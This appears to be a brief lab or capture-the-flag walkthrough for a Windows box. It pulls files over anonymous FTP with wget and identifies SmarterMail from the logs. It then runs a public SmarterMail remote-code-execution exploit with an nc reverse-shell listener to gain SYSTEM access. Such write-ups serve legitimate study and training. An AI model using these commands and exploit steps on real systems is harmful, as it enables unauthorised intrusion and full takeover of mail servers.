






# 21

Using `wget -r --user="Anonymous" --password="anonymous" ftp://192.168.182.65/` to get all files

Now to read all files in log folder:
`cat *`

it is a mail service for sure and searching for the directory structure on google leads us to believe it is SmarterMail

# 17001

Now targeting port 17001 for SmarterMail:
Using this exploit https://packetstormsecurity.com/files/160416/SmarterMail-6985-Remote-Code-Execution.html
Changing the Lhost and Host:

```
rlwrap nc -nlvp 8000 
```
```
python3 smartermail.py
```


We are directly nt authority/system
